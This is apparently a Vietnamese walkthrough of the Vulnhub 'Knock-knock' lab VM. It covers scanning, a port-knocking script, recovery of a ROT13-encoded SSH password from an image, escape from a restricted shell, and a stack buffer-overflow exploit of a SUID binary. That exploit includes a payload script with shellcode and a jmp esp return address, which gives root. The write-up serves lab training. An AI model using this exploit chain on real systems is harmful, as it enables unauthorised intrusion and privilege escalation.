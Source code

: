 # Knock - knock Vulnhub Walkthrough
## Bước 1: Dò quét
Tìm Ip của VM knock knock
netdiscover -i eth0 -r 192.168.18.0/24
![image](https://hackmd.io/_uploads/S19I4xy8a.png)
![image](https://hackmd.io/_uploads/rywwNlkUT.png)


knock knock có IP là 192.168.18.143
Dùng nmap scan version và OS 
nmap -sT -sV -O 192.168.18.143
![image](https://hackmd.io/_uploads/HkS9Vl1U6.png)

nmap bị chặn scan version và OS
scan port
	nmap 192.168.18.143 -p-
![image](https://hackmd.io/_uploads/SyV6Vg186.png)

phát hiện port 1337 đang mở
Thử telnet vào port đó 
	telnet 192.168.18.143 1337
![image](https://hackmd.io/_uploads/BkkbBlyIp.png)

Nhận được 3 giá trị có vẻ như là các port 
Port Knocking là một kỹ thuật để kiểm soát quyền truy cập vào một cổng bằng cách chỉ cho phép người dùng hợp pháp truy cập vào dịch vụ đang chạy trên máy chủ. Nó hoạt động theo cách mà khi thực hiện đúng trình tự kết nối, tường lửa sẽ mở cổng đã bị đóng.

Dùng script để tự động connect đến các port này
script.py
```python=
#!/usr/bin/python 
import socket
import itertools
import sys
destination = "192.168.18.143"

def clean_up_ports (raw_string):
	if len(raw_string) <= 0:
		return None
	# Remove the first [
	raw_string = raw_string.replace('[','')
	# Remove the second ]
	raw_string = raw_string.replace(']','')
	#split by commas
	first_list = raw_string.split(',')
	# start e empty return list
	ports = []
	for port in first_list:
	# strip the whitespace around the string
	# and cast to a integer
		ports.append(int (port.strip()))
	return ports
def main():
	print "[+] Getting sequence"
	try:
		sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		sock.connect((destination, 1337))
	except Exception as e:
		print "[+] Unable to connect to %s on port 1337. %s" % (destination, e) 
		sys.exit(1)
	# receive the list 
	raw_list = sock.recv(20)
	# get the ports in a actual python list
	ports = clean_up_ports (raw_list)
	print "[+] Sequence is %s" % ports
	print "[+] Knocking on the door using all the possible combinations...\n"
	# Lets knock all of the possible combinations of the ports list
	for port_list in itertools.permutations (ports):
		print "[+] Knocking with sequence: %s" % (port_list,) 
	for port in port_list:
		print "[+] Knocking on port %s:%s" % (destination, port) 
		sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
		sock.settimeout(0.1)
		sock.connect_ex ((destination, port)) 
		sock.close()
	print "[+] Finished sequence knock\n"
if __name__  =='__main__':
	print "[+] Knock knock opener"
	main()
	print "[+] Done"
```



![image](https://hackmd.io/_uploads/BkrEBe1UT.png)

Bây giờ tiến hành scan lại 
 nmap -p-  192.168.18.143

![image](https://hackmd.io/_uploads/SJMIrgy8a.png)

Truy cập trên trình duyệt 

![image](https://hackmd.io/_uploads/B1_DBeJLp.png)

Xem mã nguồn thấy không có gì đặc biệt chỉ có ảnh knocknock.jpg

![image](https://hackmd.io/_uploads/SkrFSxy8a.png)

Dùng wfuzz tìm các file bị ẩn nhưng không có gì đặc biệt
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt --hc 404 http://192.168.18.143/FUZZ

Tải ảnh bên trên về máy
wget http://192.168.18.143/knockknock.jpg

Dùng strings thấy một thông tin đăng nhập có vẻ được mã hóa 

![image](https://hackmd.io/_uploads/SyHqHeJIp.png)

Đây là mã caesar với ROT 13 
Decode bằng Cyberchef 

![image](https://hackmd.io/_uploads/Syvsre1Ua.png)

Thu được:
nosaJ
fnk2Pj9Bj
Nhìn có vẻ hơi ngược khi đảo ngược lại 
Jason
jB9jP2knf
Đây có lẽ là tài khoản SSH của user Jason
username: Jason
password: jB9jP2knf

## Bước 2: Khai thác Buffer Overflow 

![image](https://hackmd.io/_uploads/H16CrlJ86.png)

Login SSH thành công.

Tìm thấy chương trình “tfc” có quyền SUID
![image](https://hackmd.io/_uploads/rkAyLgy8a.png)

Đây là chương trình mã hóa tập tin, đối số thứ nhất là tệp đầu vào (văn bản thuần túy) và đối số thứ hai là tệp đầu ra (văn bản mật mã), cả đầu vào và đầu ra đều phải có đuôi .tfc.
Do shell hạn chế nên cần gọi shell từ python để bypass
![image](https://hackmd.io/_uploads/HkQzLxyL6.png)

python -c "import pty; pty.spawn('/bin/bash')"

![image](https://hackmd.io/_uploads/HkomIxJUT.png)

Encrypt thử file in.tfc

![image](https://hackmd.io/_uploads/SkwOUekIT.png)

Có thể thấy khi đảo ngược thứ tự file thì sẽ giải mã được 
Bây giờ chúng ta hãy thử một file lớn để xem nó có lỗ hổng Tràn bộ đệm hay không.

![image](https://hackmd.io/_uploads/SyFYIlkLa.png)

Có tồn tại Buffer overflow
Dùng tool [checksec.sh](https://www.trapkit.de/tools/checksec/) để kiểm tra 

![image](https://hackmd.io/_uploads/HJThLe18a.png)

không có bất cứ sự bảo vệ nào 
Do gdb chưa được cài đặt trên máy mục tiêu nên ta phải tải chương trình tfc xuống Kali của mình để phân tích thêm.
scp jason@192.168.18.143:tfc /
Hoặc gửi từ máy mục tiêu scp tfc kali@192.168.18.145:tfc

![image](https://hackmd.io/_uploads/HJyR8eJIp.png)


Dùng gdb phân tích
![image](https://hackmd.io/_uploads/B1a0Ue18T.png)

Tại sao ở đây là 0x0675c916 mà không phải  là 0x41414141? 
Tiếp theo, cần tìm đâu là độ lệch để chỉ cần thay đổi EIP. Sau khi thử một số độ dài khác nhau và kiểm tra giá trị của địa chỉ trả lại bằng gdb. Cuối cùng đã tìm thấy phần bù để ghi đè lên địa chỉ trả về (4124 byte).

Do 4 'A' luôn bắt đầu bằng cùng một byte 'def0 5bab' trong tệp được mã hóa, Vì vậy, 'def0 5bab' có thể được sử dụng như một mẫu để xác định vị trí dữ liệu được mã hóa trong tệp core.

![image](https://hackmd.io/_uploads/HkWWwlyL6.png)
![image](https://hackmd.io/_uploads/rkmMPg186.png)


Tiếp theo, sử dụng msfelfscan để lấy địa chỉ jmp esp.
msfelfscan -j esp /root/tfc

![image](https://hackmd.io/_uploads/rJImDxJLp.png)

Dùng linux / x86 / exec để tạo shellcode
![image](https://hackmd.io/_uploads/BJ4rDlJ8T.png)

Tạo file payload.py
```python=
#/usr/bin/python

shellcode = "\xdb\xc6\xd9\x74\x24\xf4\x5a\xb8\x7e\xda\xf3\x36\x31\xc9\xb1\x0b\x83\xea\xfc\x31\x42\x16\x03\x42\x16\xe2\x8b\xb0\xf8\x6e\xea\x17\x99\xe6\x21\xfb\xec\x10\x51\xd4\x9d\xb6\xa1\x42\x4d\x25\xc8\xfc\x18\x4a\x58\xe9\x13\x8d\x5c\xe9\x0c\xef\x35\x87\x7d\x9c\xad\x57\xd5\x31\xa4\xb9\x14\x35"

content = 'A' * 4124
content += "\x93\x8e\x04\x08"               # 0x08048e93 jmp esp
content += "\x90" * 20                       # padding 20 NOPs to protect shellcode
content += shellcode
content += 'C' * (5000 - 4124 - 4 -20 -70)  # padding with 'C'

print content
```




copy core ra file exp.tfc bỏ qua 239056byte (từ 3a5d0 hex)
dd if=core of=exp.tfc skip=239056 count=5000 bs=1
![image](https://hackmd.io/_uploads/HJnOPxk86.png)

Chạy thử trên máy kali đã lên đc root 
![image](https://hackmd.io/_uploads/rkstPg1LT.png)

Bây giờ tải exp.tfc lên máy mục tiêu và khai thác 

![image](https://hackmd.io/_uploads/SyIiwl18T.png)

Lấy được flag

![image](https://hackmd.io/_uploads/r1P2wgJLa.png)



